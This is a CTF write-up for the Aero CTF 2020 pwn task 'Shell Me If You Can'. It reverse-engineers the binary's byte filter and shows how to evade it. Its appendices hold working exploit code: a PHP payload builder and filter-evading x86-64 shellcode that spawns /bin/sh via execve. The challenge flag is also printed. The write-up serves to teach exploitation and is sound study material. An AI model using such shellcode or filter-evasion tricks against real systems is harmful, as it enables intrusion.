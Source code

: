 # Shell Me If You Can - Aero CTF 2020 (pwn, 205, 44 solved)
## Introduction

Shell Me If You Can is a pwn/reverse task.

An archive containing a binary, a libc and its corresponding loader (`ld.so`).

The description says that firewalls can detect shellcodes. It hints that this
task is a shellcoding task, and that its goal is to bypass filters that would
block a shellcode.

The binary waits for user input and crashes afterward.

## Reverse engineering

The `main` function allocates an RWX page with `mmap` and a buffer of size
`0x80` with `calloc`. It then fills the buffer with user input.

A first function is called on this input. It xors the whole buffer with the last
byte of the buffer:
```c
xorKey = buffer[0x7F];
for(i = 0; i < 0x80; i++)
	buffer[i] ^= xorKey;
```

The buffer is then copied to the RWX mapping.

The program allocates a second buffer of size `0x80` and fills it with user
input again. Then it checks its length. If its length at least 12, it passes it
to a function ; otherwise it calls it with `R97S12-18L40C30`.
```c
if(strlen(buffer) < 12)
	f(map, "R97S12-18L40C30", 0x80);
else
	f(map, buffer, 0x80);
```

This function performs a bunch of checks and ends up jumping the map that
contains the first user input.

The function reads instructions from the second argument. The instructions it
accepts are :

1. `Rn`: replaces every bytes inferior or equal to `n` with `0x90` (`n >= 8`)
2. `Snn-mm`: substitutes every bytes equal to `nn` with `mm` (`nn != mm`,
   `nn < 0x80`, `mm < 0x80`)
3. `Ln` Replaces the last `n` bytes with `0x90` (`n <= 0x80`)
4. `Cn` Jumps to the byte `n` of the map


Every instructions must be present. The least constraining set of parameters
are : `R08S08-09L99C10`. It will execute a shellcode padded with 10 (decimal)
bytes, of size 89 (`99 - 10`) that contains no bytes inferior or equal to 8.

The problem that arises with these restrictions are:
1. `0x00` which is used as `/bin/sh`'s terminator
2. `0x05` which is used to encode `syscall` (`0f 05`)

Both restrictions can be bypassed creating values on the fly and pushing them on
the stack.

**Flag**: `Aero{dad088ac762b071665d321c2aa22c5f84f66dca4e8865da998666d15b3ca0e0a}`

## Appendices

### pwn.php
```php
#!/usr/bin/php
<?php
$shellcode = str_repeat("\x90", 10) . file_get_contents("shellcode");
echo str_pad($shellcode, 0x80, "\x00");
echo "R08"
   . "S08-09"
   . "L99"
   . "C10";
```

### shellcode.S
```assembler
#include <sys/syscall.h>

.intel_syntax noprefix
.global _start
_start:
	// push /bin/sh
	mov rbx, ~0x68732f6e69622F
	not rbx
	push rbx
	mov rdi, rsp

	// put syscall (0f 05) on the map
	mov bx, ~0x050F
	not bx

	mov word ptr [rax], bx
	mov rbx, rax

	// call execve
	xor esi, esi
	xor edx, edx
	xor eax, eax
	mov al, SYS_execve

	jmp rbx
	int3
```
